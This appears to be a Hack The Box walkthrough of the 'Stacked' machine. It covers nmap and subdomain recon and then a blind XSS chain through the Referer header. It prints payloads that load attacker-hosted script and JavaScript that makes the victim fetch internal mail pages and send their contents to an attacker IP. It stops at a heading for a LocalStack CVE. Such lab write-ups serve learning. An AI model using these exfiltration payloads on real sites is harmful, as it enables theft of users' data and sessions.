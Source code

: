 ```yaml
---
title: htb stacked
author: Yuchao
date: 2022-03-29 11:33:00 +0800
categories: [sec]
tags: [htb, aws, localstack]
math: true
mermaid: true
---
```


## recon

#### nmap
```
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.112
nmap -p 22,80,2376 -sCV -oA scans/nmap-tcpscripts 10.10.11.112
```
- 22/tcp   open  ssh; 80/tcp   open  http; 2376/tcp open  docker

#### feroxbuster, directory discovery
``` feroxbuster -u http://stacked.htb ```

#### wfuzz, host discovery
``` wfuzz -H "Host: FUZZ.stacked.htb" -u http://stacked.htb -w /usr/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 26```
- hide word length 26 responses
- find host: portfolio.stacked.htb - TCP 80
- a local stack development page.
- <https://github.com/localstack/localstack>
- serverless: run services often used for Serverless apps (iam, lambda, dynamodb, apigateway, s3, sns)

## XSS

#### recon for XSS
- input area, and interesting headers.
- add payload as ``` <img src="http://{attackerIP}/fieldname_or_header_name"> ``` in different places.
- send the request.
attacker machine
``` sudo python3 -m http.server 80 ```
- 80 as we did not specify port in set payload
- wait a while
- ``` "GET /referer HTTP/1.1" 404 - ```
- so the ONLY field vulnerable to XSS is: Header -> referer.
- - run ``` date ``` two times, culculate the XSS victim(background cron) activity interval.
- interesting material below.
- <https://www.horizon3.ai/unauthenticated-xss-to-remote-code-execution-chain-in-mautic-3-2-4/>

#### find out what the URL the victim is looking at.
- Burpsuite set header Referer: <script src="http://{attackerIP}/pwn.js"></script>
- ``` python3 -m http.server 80 ``` at pwn.js location, for victime to run pwn.js.
- use nc to accept the victim`s response.

xmlhttprequest:
- like background web request by browser.
```javascript
XMLHttpRequest.open(method, url, async)
// if async = false, the script itself will not go foward, until the response. Otherwise, we will get null.
XMLHttpRequest.send(body)
// body: Optional, A body of data to be sent in the XHR request.
```

Method 1:(lucky there is a referer header)
```javascript 
<script src="http://10.10.14.6/xss.js"></script> 
```
- in the victim`s referer, we can see the response is from: "/read-mail.php?id=5"

Method 2: (more generic)
```javascript
var exfilreq = new XMLHttpRequest();    
exfilreq.open("GET", "http://{attackerIP}/" + document.location, false);    
exfilreq.send(); 
```
- set above script as pwn.js
- when we nc at 80, can see the victim`s current page appended.
- in nc, we get "GET /http://mail.stacked.htb/read-mail.php?id=2 HTTP/1.1"
- For victim visited "http://{attackerIP}/http://mail.stacked.htb/read-mail.php?id=2"

This step we find out the inner email host name. (mail.stacked.htb)

#### Let victim visit inner pages for us.

```javascript
// Make target to visit the target
var target = "{the address we want victim to visit}"
var req1 = new XMLHttpRequest();
req1.open('GET', target, false);
req1.send()
var response=req1.responseText;
// Send what victim saw back to us
var req2 = new XMLHttpRequest();
req2.open('POST', "http://{attackerIP}:8000/", false)
req2.send(response);
```


## LocalStack vulnerability

#### CVE-2021-32090 
